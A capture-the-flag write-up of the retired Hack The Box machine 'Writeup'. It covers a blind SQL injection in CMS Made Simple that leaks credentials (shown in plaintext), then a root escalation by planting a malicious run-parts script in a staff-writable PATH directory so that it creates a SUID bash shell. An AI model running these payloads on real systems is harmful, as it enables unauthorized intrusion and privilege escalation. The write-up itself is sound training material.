

# Hack The Box - Writeup


Hello guys, I'll be walking you through the attack vectors and findings for the retired box **Writeup**. This machine starts with a blind SQL injection in CMS Made Simple that leaks credentials, then moves to SSH access as `jkr`. From there, membership in the `staff` group is abused to hijack a root-executed `run-parts` call during SSH login and escalate to root.

## Reconnaissance

I began with a full port scan to identify exposed services.

```bash
nmap -p- --min-rate 10000 -oA scans/nmap_alltcp 10.10.10.138
nmap -p 22,80 -sV -sC -oA scans/nmap_scripts 10.10.10.138
```

The scan showed SSH and HTTP:

```text
22/tcp open  ssh  OpenSSH 7.4p1 Debian 10+deb9u6
80/tcp open  http  Apache httpd 2.4.25 ((Debian))
```



`robots.txt` exposed `/writeup/`, and the site source showed it was generated with **CMS Made Simple**.

## Initial Access

### Blind SQL Injection

CMS Made Simple versions before 2.2.10 are vulnerable to an unauthenticated blind SQL injection https://www.exploit-db.com/exploits/46635 . I used a public PoC that relies on timing delays to infer characters and recover user data.

The exploit revealed:

```text
Salt: 5a599ef579066807
Username: jkr
Email: jkr@writeup.htb
Password hash: 62def4866937f08cc13bab43bb14e6f7
Password: raykayjay9
```

With those credentials, I logged in over SSH as `jkr` and collected `user.txt`.

```bash
ssh jkr@10.10.10.138
```

## Privilege Escalation

### Staff Group Abuse

Checking group membership showed that `jkr` was in `staff`:

```text
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),...,50(staff),103(netdev)
```

On Debian, `staff` can write to `/usr/local`, which is ahead of system paths for root’s login environment. That meant I could potentially hijack a command root runs with a writable replacement in `/usr/local/bin`.

### Root Cron and Login Path

Using `pspy`, I watched root activity and found two interesting behaviors:

- A cron job running `/root/bin/cleanup.pl` every minute.
- SSH logins triggering `run-parts --lsbsysinit /etc/update-motd.d` through a root-owned shell pipeline.

The important detail was that the login path used:

```text
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Since `/usr/local/bin` came first and was writable by `staff`, I replaced `run-parts` with my own script:

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /bin/deadbeef\nchmod u+s /bin/deadbeef' > /usr/local/bin/run-parts
chmod +x /usr/local/bin/run-parts
```

Then I SSH’d in again to trigger the root-executed login script.

That created a SUID bash binary:

```text
-rwsr-xr-x 1 root root /bin/deadbeef
```

I launched it with `-p` to preserve the elevated privileges:

```bash
/bin/deadbeef -p
```

That gave me a root shell, and I read `root.txt`.

## Attack Path

- **Scan the host** — identify SSH and HTTP.
- **Find the CMS** — confirm the site uses CMS Made Simple.
- **Exploit blind SQLi** — recover the username and password for `jkr`.
- **SSH as jkr** — gain an initial shell.
- **Inspect groups** — notice `staff` membership.
- **Watch root activity** — observe login-time `run-parts` execution.
- **Hijack the PATH** — replace `/usr/local/bin/run-parts` with a malicious script.
- **Create SUID bash** — copy `/bin/bash` to `/bin/deadbeef` and set the SUID bit.
- **Escalate to root** — run `/bin/deadbeef -p` and collect the final flag.
